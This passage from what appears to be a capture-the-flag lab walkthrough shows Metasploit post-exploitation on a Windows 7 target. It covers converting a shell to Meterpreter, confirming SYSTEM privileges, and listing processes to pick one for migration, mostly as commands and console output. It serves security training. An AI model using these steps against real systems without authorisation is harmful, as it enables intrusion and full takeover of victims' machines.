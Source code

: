     Id  Name  Type               Information  Connection
    --  ----  ----               -----------  ----------
    1         shell x64/windows               10.11.25.205:4444 -> 10.10.135.235:49234 (10.10.135.235)

    msf6 post(multi/manage/shell_to_meterpreter) > set SESSION 1
    SESSION => 1
    ```
- Run! If this doesn't work, try completing the exploit from the previous task once more.
- Once the meterpreter shell conversion completes, select that session for use.
    ```bash
    msf6 post(multi/manage/shell_to_meterpreter) > session 2
    ```

- Verify that we have escalated to NT AUTHORITY\SYSTEM. Run getsystem to confirm this. Feel free to open a dos shell via the command 'shell' and run 'whoami'. This should return that we are indeed system. Background this shell afterwards and select our meterpreter session for usage again. 
    ```bash
    meterpreter > shell
    Process 1048 created.
    Channel 1 created.
    Microsoft Windows [Version 6.1.7601]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

    C:\Windows\system32>whoami
    whoami
    nt authority\system
    ^Z
    Background channel 1? [y/N]  y
    ```

- List all of the processes running via the 'ps' command. Just because we are system doesn't mean our process is. Find a process towards the bottom of this list that is running at NT AUTHORITY\SYSTEM and write down the process id (far left column).
    ```bash
    meterpreter > ps

    Process List
    ============

    PID   PPID  Name                  Arch  Session  User                          Path
    ---   ----  ----                  ----  -------  ----                          ----
    0     0     [System Process]                                                   
    4     0     System                x64   0                                      
    416   4     smss.exe              x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\smss.exe
    500   544   conhost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\conhost.exe
    544   536   csrss.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
    ...
    2824  692   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
    ```
